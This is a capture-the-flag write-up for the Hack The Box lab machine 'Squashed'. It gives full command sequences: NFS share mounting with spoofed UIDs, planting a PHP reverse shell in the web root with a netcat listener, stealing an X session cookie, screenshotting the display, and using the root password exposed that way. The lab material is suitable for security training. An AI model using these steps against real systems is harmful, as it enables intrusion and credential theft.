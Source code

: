 ```yaml
---
cover: ../../../.gitbook/assets/Squashed.png
coverY: 245.19466666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Squashed

Tools : `convert` `python3` `xwd` `w` `export` `cat` `echo` `usermod` `groupmod` `useradd` `nc` `curl` `mount` `showmount` Subjects : `rpcinfo` `nfs` `KeePass`

## Port Discovery

```bash
kali@kali| echo '10.10.11.191 squashed.htb' | sudo tee -a /etc/hosts
kali@kali| ports=$(nmap -p- --min-rate=1000 -T4 squashed.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
kali@kali| nmap -p $port -sV -sC squashed.htb
```

| Port  | Protocol     | Version                         |
| ----- | ------------ | ------------------------------- |
| 22    | ssh          | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 |
| 80    | http         | Apache httpd 2.4.41 ((Ubuntu))  |
| 111   | rpcbind      | 2-4 (RPC #100000)               |
| 2049  | nfs\_acl     | 3 (RPC #100227)                 |
| 33629 | mountd       | 1-3 (RPC #100005)               |
| 37459 | mountd       | 1-3 (RPC #100005)               |
| 46677 | nlockmanager | 1-4 (RPC #100021)               |
| 52561 | mountd       | 1-3 (RPC #100005)               |

## Web Directory Discovery

```bash
kali@kali| ffuf -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://squashed.htb/FUZZ -fs 32532
```

Discovered urls :

| Url                               | Code |
| --------------------------------- | ---- |
| http://squashed.htb/css           | 301  |
| http://squashed.htb/js            | 301  |
| http://squashed.htb/images        | 301  |
| http://squashed.htb/server-status | 403  |

## NFS

```bash
kali@kali| showmount -e squashed.htb
```

The shared files : `/home/ross` `/var/www/html`

```bash
kali@kali| mkdir /tmp/mount1
sudo@kali| mount -t nfs squashed.htb:/var/www/html /tmp/mount1 -o nolock

kali@kali| mkdir /tmp/mount2
root@kali| mount -t nfs squashed.htb:/home/ross /tmp/mount2 -o nolock
```

The user with the UID 2017 has `rwx` permissions for `mount1`.

<figure><img src="../../../.gitbook/assets/squashed-2017.png" alt=""><figcaption></figcaption></figure>

```bash
root@kali| useradd john
root@kali| usermod -u 2017 john
root@kali| su john
john@kali| cd /tmp/mount1
```

<figure><img src="../../../.gitbook/assets/squashed-mount1.png" alt=""><figcaption></figcaption></figure>

This is the web server repository. Upload a reverse shell on the target and don't forget to update the ip of the attacker in the `php-reverse-shell.php`.

```bash
john|kali| cp /usr/share/webshells/php/php-reverse-shell.php /tmp/mount1/shell.php
```

<figure><img src="../../../.gitbook/assets/squashed-php.png" alt=""><figcaption></figcaption></figure>

In one terminal, launch netcat.

```bash
kali@kali| nc -lnvp 1234
```

In a second terminal execute `curl`.

```bash
kali@kali| curl http://squashed.htb/shell.php
```

In the first terminal, the reverse shell appears.

```bash
alex@target| python3 -c "import pty;pty.spawn('/bin/bash')"
alex@target| cat /home/alex/user.txt
```

The user with the UID 1001 has `rwx` permissions for `mount2`.

<figure><img src="../../../.gitbook/assets/squashed-1001.png" alt=""><figcaption></figcaption></figure>

```bash
root@kali| useradd jane
root@kali| usermod -u 1001 jane
```

<figure><img src="../../../.gitbook/assets/squashed-authority.png" alt=""><figcaption></figcaption></figure>

```bash
jane@kali  | cat /mnt/2/.Xauthority | base64  # output is AQAADHN<...SNIP...>S0xAoNm/oZZ4/
alex@target| echo AQAADHN<...SNIP...>S0xAoNm/oZZ4/ | base64 -d > /tmp/.Xauthority
alex@target| export XAUTHORITY=/tmp/.Xauthority
alex@target| w
```

<figure><img src="../../../.gitbook/assets/squashed-session.png" alt=""><figcaption></figcaption></figure>

```bash
alex@target| xwd -root -screen -silent -display :0 > /tmp/screen.xwd
alex@target| python3 -m http.server
kali@kali  | wget http://squashed.htb:8000/screen.xwd
kali@kali  | convert screen.xwd screen.png
```

<figure><img src="../../../.gitbook/assets/squashed-screen.png" alt=""><figcaption></figcaption></figure>

The credentials are `root:cah$mei7rai9A`.

```bash
alex@target| su root             # prompt password, enter "cah$mei7rai9A"
root@target| cat /root/root.txt
```
